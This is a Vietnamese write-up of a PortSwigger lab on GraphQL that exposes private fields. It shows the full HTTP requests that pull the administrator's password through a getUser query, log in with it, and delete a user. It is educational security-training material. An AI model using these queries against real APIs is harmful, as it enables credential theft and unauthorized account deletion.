



# Write-up: Accidental exposure of private GraphQL fields

### Tổng quan
Khai thác lỗ hổng trong API GraphQL, nơi các trường nhạy cảm như `password` trong query `getUser` vô tình bị để lộ mà không có kiểm soát truy cập. Bằng cách sử dụng InQL để phân tích schema và gửi query đến endpoint `/graphql/v1`, kẻ tấn công lấy được thông tin đăng nhập của tài khoản `administrator`, đăng nhập và xóa tài khoản `carlos`, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng lộ trường nhạy cảm trong query GraphQL `getUser`, lấy thông tin đăng nhập của `administrator`, đăng nhập và xóa tài khoản `carlos`, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser
- InQL (Burp Suite Extension)

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Quan sát Burp History, tìm request gửi đến endpoint `/graphql/v1`:  
  ```
  POST /graphql/v1 HTTP/2
  Host: 0ag7014o15pq6789k0lm134500no00lk.web-security-academy.net
  Content-Type: application/json

  {
    "query": "query getBlogSummaries {\n    getAllBlogPosts {\n        image\n        title\n        summary\n        id\n    }\n}"
  }
  ```  
- **Phân tích**:  
  - Endpoint `/graphql/v1` xử lý query `getAllBlogPosts`, trả về thông tin công khai của bài viết (image, title, summary, id).  
  - Điều này xác nhận ứng dụng sử dụng GraphQL, có thể có các query/mutation khác:  
      

2. **Phân tích schema với InQL**  
- Sử dụng InQL Scanner (Burp Suite Extension) để quét endpoint `/graphql/v1` và lấy schema.  
- Kết quả: Phát hiện query `getUser` với các trường nhạy cảm:  
  ```
  query getUser {
    getUser(id: Int!) {
        id
        password
        username
    }
  }
  ```  
- **Phân tích**: Trường `password` được trả về mà không yêu cầu xác thực, cho thấy lỗ hổng lộ thông tin nhạy cảm:  
  

3. **Khai thác (Exploitation)**  
- Sử dụng Burp Repeater, gửi query `getUser` với `id=1` để lấy thông tin người dùng:  
  ```
  POST /graphql/v1 HTTP/2
  Host: 0ag7014o15pq6789k0lm134500no00lk.web-security-academy.net
  Content-Type: application/json

  {
    "query": "query login {\n    getUser(id:1) {\n        password\n        id\n        username\n    }\n}"
  }
  ```  
- Kết quả: Trả về thông tin đăng nhập của tài khoản `administrator`:  
  ```
  {
    "data": {
      "getUser": {
        "password": "b18xyjx5q1j4vzfp5p4e",
        "id": 1,
        "username": "administrator"
      }
    }
  }
  ```  
- **Phân tích**: Lỗ hổng cho phép truy cập trường `password` mà không cần xác thực:  
    

4. **Đăng nhập và hoàn thành lab**  
- Sử dụng thông tin đăng nhập `administrator:b18xyjx5q1j4vzfp5p4e` để đăng nhập:  
  ```
  POST /login HTTP/2
  Host: 0ag7014o15pq6789k0lm134500no00lk.web-security-academy.net
  Content-Type: application/x-www-form-urlencoded

  username=administrator&password=b18xyjx5q1j4vzfp5p4e
  ```  
- Kết quả: Đăng nhập thành công, nhận cookie `session` cho tài khoản `administrator`

- Truy cập `/admin` hoặc endpoint liên quan để xóa tài khoản `carlos`:  
  ```
  POST /admin/delete HTTP/2
  Host: 0ag7014o15pq6789k0lm134500no00lk.web-security-academy.net
  Cookie: session=...
  Content-Type: application/x-www-form-urlencoded

  username=carlos
  ```  
- Kết quả: Tài khoản `carlos` bị xóa, lab xác nhận hoàn thành:  
    

- **Ý tưởng payload**:  
  - Sử dụng query `getUser` để lấy trường `password` của `administrator`, sau đó đăng nhập và xóa tài khoản `carlos`.  

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng lộ trường nhạy cảm trong GraphQL, sử dụng query `getUser` để lấy thông tin đăng nhập mà không cần xác thực.  
- Nhận thức tầm quan trọng của việc kiểm soát truy cập các trường nhạy cảm trong schema GraphQL, áp dụng xác thực và phân quyền để ngăn chặn rò rỉ thông tin như mật khẩu.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác lỗ hổng lộ trường nhạy cảm trong API GraphQL, nhấn mạnh tầm quan trọng của việc kiểm soát truy cập và bảo vệ các trường như `password` để ngăn chặn leo thang đặc quyền. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*